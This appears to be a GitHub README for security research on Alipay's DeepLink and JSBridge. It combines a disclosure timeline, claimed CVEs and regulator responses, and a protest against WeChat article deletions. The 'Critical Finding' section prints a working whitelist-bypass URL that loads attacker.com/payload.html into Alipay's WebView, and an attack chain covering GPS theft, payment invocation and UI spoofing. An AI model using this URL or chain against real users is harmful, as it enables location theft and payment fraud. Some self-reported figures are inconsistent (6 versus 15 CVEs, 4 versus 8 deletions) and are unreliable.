

# Alipay DeepLink + JSBridge Security Research

**17 Verified Vulnerabilities | 3 Devices | 308 Server Log Entries | 6 CVEs Applied**

> **Alipay Mobile Payment Attack Surface — The Full-Stack Analysis by [Innora AI](https://innora.ai)**
>
> | Layer | Repository | Findings |
> |-------|-----------|----------|
> | Runtime | **[alipay-deeplink-research](https://github.com/sgInnora/alipay-deeplink-research)** (this repo) | 17 vulnerabilities, CVSS 9.3 |
> | SDK | [alipay-securityguard-analysis](https://github.com/sgInnora/alipay-securityguard-analysis) | 9 CVEs, AVMP VM bypass, 97% unprotected APIs |
> | Cryptography | [hash-collision-lab](https://github.com/sgInnora/hash-collision-lab) | 15 PoCs, IACR ePrint [2026/526](https://eprint.iacr.org/2026/526) |

---

> ## ⚠️ CENSORSHIP UPDATE — 2026-03-15
>
> **All 4 WeChat articles have been forcibly deleted.**
>
> The deletion notices state only: *"Received related complaint. Determined to violate the Cybersecurity Law."* Basis: *"related laws and regulations."*
>
> **No complainant identified. No specific law article cited. No appeal channel provided.**
>
> 4 days earlier (March 11), a named complaint by Beijing Geyun Law Firm citing "reputation infringement" was **reviewed and rejected** by WeChat — the platform found it did not constitute infringement. This time, an anonymous complaint succeeded where the named one failed.
>
> Meanwhile, the same research is independently verified by Packet Storm (#217089), accepted by MITRE (6 CVEs, Ticket #2005801), and under investigation by 16+ countries' regulators.
>
> 
>
> **Full censorship analysis (bilingual EN/CN):** [innora.ai/zfb/article_censorship.html](https://innora.ai/zfb/article_censorship.html)

---

## WeChat Articles — ALL DELETED

| Status | Title | Original Link |
|--------|-------|---------------|
| ~~DELETED~~ | 当白名单绕过沦为全网攻击的钥匙，傲慢的终点是法庭与溯源调查 | ~~[Dead Link](https://mp.weixin.qq.com/s/XB1QSbn0icfCMg-9CANuYw)~~ |
| ~~DELETED~~ | 巨头的"封口令"被微信驳回，全球顶级黑客弹药库给出最终裁决 | ~~[Dead Link](https://mp.weixin.qq.com/s/A5rLWe46-I_U7p5ts3sdGg)~~ |
| ~~DELETED~~ | 支付宝安全研究遭律师函投诉 — 零次提及"支付宝"如何构成"商誉侵权"？ | ~~[Dead Link](https://mp.weixin.qq.com/s/M42BfJPVUhVTeyx1Iw__cw)~~ |
| ~~DELETED~~ | 位置被秒偷！10多亿人每天在用的国民支付应用，17个「正常功能」细思极恐！ | ~~[Dead Link](https://mp.weixin.qq.com/s/xEBEYZlap3xuDMURuJd7_Q)~~ |

**Archived versions**: [innora.ai/zfb/](https://innora.ai/zfb/) | This repository


## Censorship Record

Between March 15-20, 2026, **8 research articles** documenting these vulnerabilities were
force-deleted from WeChat (China's largest social platform) at the request of Ant Group's
law firm, Beijing Geyun Law Firm. The deletions occurred in two waves:

**Wave 1 (March 15):** 4 articles deleted — whitelist bypass analysis, legal complaint rebuttal,
GPS exfiltration report, and the "gag order rejected" follow-up.

**Wave 2 (March 20):** 4 more articles deleted — IACR paper announcement, 1095-app surveillance
list analysis, formal CAC complaint, and SecurityGuard SDK reverse engineering.

The initial complaint citing "reputation infringement" was **rejected by WeChat's own review team**.
The articles were subsequently removed after the complaint was resubmitted under China's
Cybersecurity Law — with no specific legal provision cited and no appeal channel provided.

This research has been independently validated by:
- **IACR**: Academic paper accepted ([eprint.iacr.org/2026/526](https://eprint.iacr.org/2026/526))
- **MITRE**: 15 CVE IDs assigned (Tickets #2005801, #2010319)
- **22 countries**: Regulatory agencies across 22 jurisdictions have confirmed receipt
- **Packet Storm Security**: Advisory #217089 published

Full censorship timeline with evidence: [innora.ai/zfb/article_censorship.html](https://innora.ai/zfb/article_censorship.html)

**Readers are encouraged to fork this repository as backup against further takedown attempts.**

## Critical Finding: Whitelist Bypass (CVSS 9.3)

**The master key enabling all 17 vulnerabilities to be remotely exploitable by ANYONE:**

```
https://ds.alipay.com/?scheme=alipays://platformapi/startapp?appId=20000067&url=https://attacker.com/payload.html
```

- **No developer permissions required** — No registration, no credentials, no approval
- **Transforms all vulnerabilities** — Without this bypass, issues are LAN-only; with it, anyone can attack 1B+ users remotely
- **Vendor acknowledged severity** — During a 23-minute recorded call, Ant Group's security lead stated: "If you can bypass our whitelist, that would be serious." Bypass achieved in under 2 minutes. Vendor refuses to patch, calling it "normal functionality"
- **6 CVEs applied** via MITRE (Ticket #2005801), CWE-601 + CWE-939

## Full Report

- **Technical Report**: [innora.ai/zfb/](https://innora.ai/zfb/)
- **Censorship Analysis**: [innora.ai/zfb/article_censorship.html](https://innora.ai/zfb/article_censorship.html)
- **Packet Storm Advisory**: #217089

## Global Regulatory Response

Reported to ~160 agencies across 22 countries. **38+ institutions responded**:

| Institution | Country | Status |
|-------------|---------|--------|
| **Apple Product Security** | US | Active investigation |
| **Google Play** | US | Policy violation review |
| **MITRE CVE** | US | 6 CVEs accepted (Ticket #2005801) |
| **Packet Storm Security** | US | Advisory #217089 published |
| **CSSF Luxembourg** | EU | Whistleblowing case CSSFWB-2026-080 |
| **HKMA** | Hong Kong | SVF complaint filed |
| **PDPC** | Singapore | Privacy investigation opened |
| **FCA** | UK | Whistleblowing confirmed |
| **OAIC** | Australia | Intake confirmed |
| **EDPB** | EU | Cross-border complaint confirmed |
| **ANSSI** | France | Confirmed, forwarded |
| **CIRCL** | Luxembourg | Case #4782984, contacting Alibaba SRC |
| **FMA** | New Zealand | Confirmed, evaluating |
| **OJK** | Indonesia | Responded with follow-up |
| **Datatilsynet** | Denmark | Confirmed receipt |
| **NCSC** | UK | Confirmed receipt |

## The Censorship Pattern

```
Feb 25 - Mar 7    Private disclosure (4 rounds + 23-min recorded call)
Mar 10             Vendor: "normal functionality" — refuses to patch
Mar 11 18:16       Public disclosure on innora.ai/zfb/
Mar 11 22:45       Beijing Geyun Law Firm complaint → REJECTED by WeChat
Mar 12             Packet Storm #217089 published, 6 CVEs at MITRE
Mar 12-14          189 emails → 22 countries → 38+ responses
Mar 15             Anonymous complaint → ALL 4 ARTICLES DELETED
                   No complainant. No specific law. No appeal.
```

**The same content exists lawfully on Packet Storm, GitHub, and innora.ai — deleted only on Chinese platforms.**

## Key Findings

| Severity | Count | Examples |
|----------|-------|---------|
| **CRITICAL** | 4 | Whitelist bypass (CVSS 9.3), GPS silent theft, Transfer pre-fill, Payment initiation |
| **HIGH** | 5 | Device fingerprinting, UI spoofing, Session leak |
| **MEDIUM** | 8 | Network info, Chain WebView, Scheme injection |

### Attack Chain

```
Attacker crafts URL (NO developer permissions needed)
    → ds.alipay.com open redirect bypasses whitelist
    → Alipay WebView loads attacker's page with full JSBridge access
    → Silent data collection (GPS 8.8m accuracy, device info, session)
    → Payment interface invocation (tradePay)
    → UI spoofing (title bar, toast notifications)
    → Sensitive page navigation (transaction history, transfer, assets)
```

### Cross-Platform Verification

- Samsung Galaxy S25 Ultra (Android 15, New Zealand)
- Redmi 12 (Android 14, Malaysia)
- iPhone 16 Pro (iOS 18.3, China — tested by vendor's own security lead)

## Live PoC (Read-Only Demo)

> **No data is collected or transmitted.** All results display locally only.

- [Trigger Page](https://innora.ai/zfb/poc/trigger.html) — Simulates attacker distribution page
- [JSBridge PoC](https://innora.ai/zfb/poc/verify.html) — Demonstrates API access
- [Chain WebView](https://innora.ai/zfb/poc/chain.html) — Proves chained pages retain bridge access

## Responsible Disclosure Timeline

| Date | Action |
|------|--------|
| 2026-02-25 | Initial report sent to Ant Group SRC |
| 2026-03-07 | Full report V3: 17 vulnerabilities + 308 log entries |
| 2026-03-07 | 23-min call with vendor security lead (recorded) |
| 2026-03-10 | Vendor: "normal functionality" |
| 2026-03-11 | Public disclosure |
| 2026-03-11 | Beijing Geyun Law Firm complaint → **rejected by WeChat** |
| 2026-03-12 | Packet Storm #217089 published |
| 2026-03-12 | 6 CVEs applied via MITRE (Ticket #2005801) |
| 2026-03-12~14 | 189 emails → 22 countries → 38+ responses |
| **2026-03-15** | **ALL 4 articles deleted — anonymous complaint, no appeal** |
| 2026-03-15 | Censorship analysis published |

## Mirrors & Archives

| Location | Status |
|----------|--------|
| **[innora.ai/zfb/](https://innora.ai/zfb/)** | Active |
| **GitHub** (this repo) | Active |
| **Packet Storm #217089** | Permanently archived |
| ~~WeChat~~ | **DELETED** (2026-03-15) |

**Fork this repository as backup.**

## Evidence

- **308 server exfiltration log entries** (JSONL format)
- **42 real-device screenshots**
- **Deletion notice screenshots**: `wechat_censored_1.jpeg`, `wechat_censored_2.jpeg`
- Full evidence available: feng@innora.ai

## Contact

- **Researcher**: Jiqiang Feng — Innora AI Security Research
- **Email**: feng@innora.ai
- **Website**: [innora.ai](https://innora.ai)
- **Twitter**: [@met3or](https://x.com/met3or/status/2033155342427967558)

---

*This research follows ISO/IEC 29147:2018 responsible disclosure practices.*
